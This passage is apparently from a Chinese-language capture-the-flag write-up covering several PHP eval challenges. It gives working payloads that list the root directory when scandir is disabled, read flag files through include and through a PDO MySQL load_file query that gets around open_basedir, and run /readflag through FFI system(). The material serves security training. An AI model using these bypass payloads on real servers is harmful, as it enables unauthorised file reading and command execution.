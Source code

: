 ```php
Warning: scandir() has been disabled for security reasons in /var/www/html/index.php(19) : eval()'d code on line 1
```
scandir被禁用了，那么就构造php代码读文件
```php
c=?><?php $dir='/';
if($dh = opendir($dir)){
while (($file = readdir($dh)) !== false)
echo $file.' ';
}
exit();?>
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637906955972-ad87a8c0-8de0-4209-b969-2f28d14322e3.png#clientId=u49b8dfee-3762-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=30&id=u8e2df6d6&margin=%5Bobject%20Object%5D&name=image.png&originHeight=38&originWidth=966&originalType=binary&ratio=1&rotation=0&showTitle=false&size=5051&status=done&style=none&taskId=uf615df8a-3aba-4b2c-9751-95597726f78&title=&width=763)
得到文件在flagx.txt
最终payload：c=include('/flagx.txt');exit();
## web75（PDO）
这次读目录不可行了，那么就换个姿势
```php
c=?><?php 
$a=new DirectoryIterator("glob:///*");
foreach($a as $f)
{echo($f.' ');}
exit();
?>
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637907212607-438c0ab9-015a-46f2-bd07-e59084ed165a.png#clientId=u49b8dfee-3762-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=30&id=u903b8919&margin=%5Bobject%20Object%5D&name=image.png&originHeight=33&originWidth=825&originalType=binary&ratio=1&rotation=0&showTitle=false&size=4467&status=done&style=none&taskId=uaebf819a-f505-4c20-baa1-1b474cab8e7&title=&width=750)得到文件在flag36.txt，这时候直接包含是拿不到答案的，会报错open_base，但可以通过其他应用比如说mysql来访问，如下使用pdo
```php
c=try{
  $dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');
  foreach($dbh->query('select load_file("/flag36.txt")') as $row)
		{echo($row[0])."|"; }
  $dbh = null;
}
catch (PDOException $e)
{echo $e->getMessage();exit(0);}
exit(0);
```
> PHP 数据对象 （PDO） 扩展为PHP访问数据库定义了一个轻量级的一致接口。
> PDO 提供了一个数据访问抽象层，这意味着，不管使用哪种数据库，都可以用相同的函数（方法）来查询和获取数据

## web76（PDO）
做法同上，flag在flag36d.txt
## web77（PDO）
这个题不让用mysql了，前两个题的做法在这里行不通了
先读一下根目录下的所有文件
```php
c=?><?php 
$a=new DirectoryIterator("glob:///*");
foreach($a as $f)
{echo($f.' ');}
exit();
?>
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637909954366-8afa163f-b5f7-4c1d-a9db-e3f5d15a2cdd.png#clientId=u49b8dfee-3762-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=20&id=u6babaa48&margin=%5Bobject%20Object%5D&name=image.png&originHeight=28&originWidth=1024&originalType=binary&ratio=1&rotation=0&showTitle=false&size=5383&status=done&style=none&taskId=uec8e5e27-d1c1-4c06-b254-8da1f008ef2&title=&width=731)
有两个可疑文件，flag36x.txt和readflag，留着备用，先放payload
```php
c=$ffi = FFI::cdef("int system(const char *command);");
$a='/readflag > 1.txt';
$ffi->system($a);
```